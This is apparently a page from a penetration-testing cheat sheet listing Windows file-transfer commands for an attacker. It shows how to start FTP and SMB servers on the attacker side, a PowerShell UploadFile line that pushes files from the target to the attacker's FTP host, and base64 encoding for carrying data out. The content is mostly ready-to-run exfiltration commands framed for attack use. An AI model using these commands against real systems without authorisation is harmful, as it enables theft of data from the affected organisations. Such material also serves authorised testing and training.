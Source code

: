 # Table of content

- [Table of content](#table-of-content)
- [return to index](INDEX.md)
  - [Windows - Uploads commands](#windows---all-commands)
    - [Upload a file - FTP](#upload-a-file---ftp)
    - [Upload a file - SMB](#upload-a-file---smb)
    - [Transfer file from target to attacker](#transfer-file-from-target-to-attacker)

## Windows - Uploads commands

### Upload a file - FTP

launch on the attacker a ftp server using python

```bash
sudo python3 -m pyftpdlib --port 21 --write
```

then on the target you can transfer whatever you want

```cmd
(New-Object Net.WebClient).UploadFile('ftp://$monIp/ftp-hosts', '$cheminFichier')
```

[:arrow_up:](#)

### Upload a file - SMB

launch on the attacker a smb server using python

```bash
python3 smbserver.py -smb2support MYSHARE /path/to/shared/directory
```

then on the target

```cmd
xcopy \server\MYSHARE\file.txt C:\path\to\local\directory\
```

[:arrow_up:](#)

### Transfer file from target to attacker

encode in b64 on the target

```cmd
[Convert]::ToBase64String((Get-Content -path "$fichier" -Encoding byte))
```

then on the attacker

```bash
echo $base64 | base64 -d > $fichier
```

[:arrow_up:](#)